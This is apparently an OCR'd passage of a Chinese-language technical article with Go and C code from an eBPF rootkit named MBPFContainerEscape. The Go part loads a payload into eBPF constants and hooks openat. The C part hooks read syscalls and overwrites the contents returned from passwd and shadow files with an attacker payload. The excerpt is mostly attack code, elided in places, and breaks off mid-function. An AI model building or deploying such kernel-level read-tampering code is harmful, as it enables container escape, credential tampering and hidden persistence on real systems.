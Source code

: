```go
			Value:         m["payload"],
			FailOnMissing: true,
		},
		{
			Name:          "payload_len",
			Value:         m["payload_len"],
			FailOnMissing: true,
            },
    }
    return editor
}

func (this *MBPFContainerEscape) setupManagers() {
	this.bpfManager = &manager.Manager{
		Probes: []*manager.Probe{
			{
				Section:          "tracepoint/syscalls/sys_enter_openat",
				EbpfFuncName:     "handle_openat_enter",
				AttachToFuncName: "sys_enter_openat",
			},
            ...
		},

		Maps: []*manager.Map{
			{
				Name: "events",
			},
		},
	}

	this.bpfManagerOptions = manager.Options{
		...
		// 填充 RewriteContants 对应map
		ConstantEditors: this.constantEditor(),
	}
}
```


**内核态使用payload**



```c
const volatile int payload_len = 0;
...
const volatile char payload_shadow[MAX_PAYLOAD_LEN];

SEC("tracepoint/syscalls/sys_exit_read")
int handle_read_exit(struct trace_event_raw_sys_exit *ctx)
{
    // 判断是否为rootkit行为，是否需要加载payload
    ...
    long int read_size = ctx->ret;
    // 判断原buff长度是否小于payload
    if (read_size < payload_len) {
        return 0;
    }
    
    // 判断文件类型，匹配追加相应payload
    switch (pbuff_addr->file_type)
    {
    case FILE_TYPE_PASSWD:
        // 覆盖payload到buf，不足部分使用原buff内容
        {
```